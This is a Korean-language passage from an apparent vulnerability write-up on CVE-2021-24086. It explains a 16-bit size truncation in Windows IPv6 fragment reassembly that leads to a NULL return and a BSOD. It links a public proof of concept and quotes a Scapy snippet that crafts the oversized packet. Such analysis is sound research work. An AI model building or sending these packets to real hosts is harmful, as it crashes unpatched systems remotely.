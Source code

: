 앞서 계산한 `BytesNeeded`로 필요한 데이터 영역을 할당합니다. 일때 유심하게봐야할 것은 `(unsigned __int16)BytesNeeded`로 2바이트로 크기 잘린다는 것입니다.
여기서 `v15`로 할당된 메모리 영역은 이후에 취약점을 살펴볼 때 봤던 함수인 `NdisGetDataBuffer`에서 사용됩니다.

> NdisGetDataBuffer
> Call the NdisGetDataBuffer function to gain access to a contiguous block of data from a NET_BUFFER structure.

```c
if ( (int)NetioRetreatNetBuffer(v15, (unsigned __int16)BytesNeeded, 0i64) < 0 )
```

앞서 v15에 할당한 메모리 영역을 다시 `NdisGetDataBuffer` 요구하는 모습입니다. 이때 `BytesNeeded`는 잘림없이 그대로 들어가게됩니다.
```c
BytesNeededa = NdisGetDataBuffer((PNET_BUFFER)v15, BytesNeeded, 0i64, 1u, 0);
```

이때 문제점이 발생합니다. 만약 `BytesNeeded == 0x1FFFF`인 상황이 발생하면 어떻게 될까요? 위에서 `NetioRetreatNetBuffer`에 의해서 할당한 메모리의 크기는 `0xFFFF`지만 `NdisGetDataBuffer`에서는 `0x1FFFF`를 요구하게됩니다. 할당된 메모리보다 사용을 위해 요구하는 메모리의 크기가 더 크면 `NdisGetDataBuffer`는 어떻게 행동하는지 문서를 확인해봅시다.

>Return value
>NdisGetDataBuffer returns a pointer to the start of the contiguous data or it returns NULL.
>
>If the DataLength member of the NET_BUFFER_DATA structure in the NET_BUFFER structure that the NetBuffer parameter points to is less than the value in >the BytesNeeded parameter, the return value is NULL.

할당된 메모리 길이(DataLength) 보다 파라미터로 요구한 `BytesNeeded`가 더 클 경우 `NULL`을 반환한다고 되어있습니다.

위에서 알아봤듯, 계산된 IPv6 헤더 크기(40) + 확장 헤더의 크기가 `0xFFFF`보다 커지는 상황이되면 BSOD가 발생합니다.
어떻게 이러한 패킷을 만들어내는지 PoC를 확인해봅시다. 

# PoC

현재 공개된 <a href="https://github.com/0vercl0k/CVE-2021-24086/blob/main/cve-2021-24086.py">PoC</a>를 확인해봅시다.

PoC 코드는 간단합니다. PoC에서는 공격을 위해서 <a href="https://media.blackhat.com/ad-12/Atlasis/bh-ad-12-security-impacts-atlasis-wp.pdf">중첩된 Fragment 패킷</a>을 이용합니다. 

취약점 트리거를 위해 다음과 같이 거대한 헤더를 갖는 `Reassemble` 패킷을 만들어냅니다.
```python
reassembled_pkt = IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('b'*0xff)),
            PadN(optdata=('c'*0xff)),
            PadN(optdata=('d'*0xff)),
            PadN(optdata=('e'*0xff)),
            PadN(optdata=('f'*0xff)),
            PadN(optdata=('0'*0xff)),
        ]) \
        / ... \
        / IPv6ExtHdrFragment(
            id = second_pkt_id, m = 1,
            nh = 17, offset = 0
        ) \
        / UDP(dport = 31337, sport = 31337, chksum=0x7e7f)
```
